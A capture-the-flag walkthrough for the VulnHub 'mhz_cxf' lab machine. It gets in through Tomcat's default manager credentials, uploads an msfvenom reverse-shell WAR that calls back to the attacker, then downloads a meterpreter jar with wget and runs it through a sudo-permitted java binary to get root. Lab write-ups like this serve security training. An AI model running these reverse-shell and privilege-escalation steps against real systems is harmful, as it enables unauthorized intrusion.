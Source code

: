 ```yaml
---
published: false
---
```

**Url**: [mhz VulnHub](https://www.vulnhub.com/entry/mhz_cxf-c1f,471/) 

**Difficulty**: Easy 

**Author**: mhz_cyber & Zamba 

### Enumeration

Firstly, a netdiscover scan will reveal how the machine can be identified on the network:

<pre>netdiscover -i eth1
some more code for example</pre>
    
![netdiscover](https://i.imgur.com/IhhB5af.png)

Then an nmap scan:

<pre>nmap -p- -A 192.168.56.110</pre>

![nmap](https://imgur.com/fqEpNx9.png)

A closer look at port 8080 on my broswer reveals a Apache Tomcat/9.0.31 

![tomcat](https://imgur.com/e78J3dy.png)

Apache Tomcat is an application server designed to execute Java servlets and render web pages that use Java Server page coding.

The "Manager App" section requires a username and password. The default credentials for Tomcat work (tomcat:tomcat).

<pre>192.168.56.110:8080/manager/html</pre>

The Web Application Manager is an opportunity to upload a reverse shell. I'll be using msfvenom to create a reverse shell. This is a good website on how to use msfvenom for reference:

[Offensive Security](https://www.offensive-security.com/metasploit-unleashed/msfvenom/)

The payload must be a war file, listening on port 4444 with my local adddress.

<pre>msfvenom -p java/jsp_shell_reverse_tcp lhost=192.168.56.101 lport=4444 -f war > fedai.war</pre>

This will be uploaded here:

![upload](https://imgur.com/N4Ns2uf.png)

Before executing the payload, listen on port 4444 with netcat:

<pre>nc -nvlp 4444</pre>

Now it must be executed, so we visit the path where it is kept, in my case /fedai. We now have a reverse shell. Uid is 'tomcat'.

<pre>id
python -c 'import pty;pty.spawn("/bin/bash")'</pre>

![deployed](https://imgur.com/2hdSVjH.png)


### User

Always check sudo priviliges to see how we can start escelating priviliges:

<pre>sudo -l</pre>
   
![sudo l](https://imgur.com/50SztJT.png)

As demonstrated, the user tomcat can run commands here:	/usr/lib/jvm/java-1.8.0-openjdk-1.8.0.242.b08-0.el7_7.x86_64/jre/bin/java. This is an openjdk java binary file which we can use to exploit priviliges.

We'll be creating another reverse shell payload on meterpreter in a java file format. Listening port will be 5555 with my local IP address again. The file will be downloaded on the victims pc so this file will be created under the apache web directory on my machine.

<pre>msfvenom --platform java -f jar -p java/meterpreter/reverse_tcp lhost=192.168.56.101 lport=5555 > fedai.jar</pre>

![www](https://imgur.com/0IDSyUh.png)

Start the apache2 service:

<pre>service apache2 start</pre>

Go to the temp directory on the victims machine and transfer the payload over.

<pre>cd /tmp
wget http://192.168.56.101/fedai.jar</pre>

![wget](https://imgur.com/PmLq6W1.png)

### Root

Before executing, we need to set up the meterpreter payload listener on metasploit:

<pre>msfconsole
use exploit/multi/handler
set payload java/meterpreter/reverse_tcp
set lport 5555
run</pre>

![meterpreter](https://imgur.com/UWIDebS.png)

Let's execute this payload with the following command:

<pre>sudo java -jar fedai.jar</pre>

![exe](https://imgur.com/6tya58T.png)

We get a successful connection from the tomcat machine as seen on meterpreter, the current user has been identified as root!

![connection](https://imgur.com/4NfW5Ls.png)

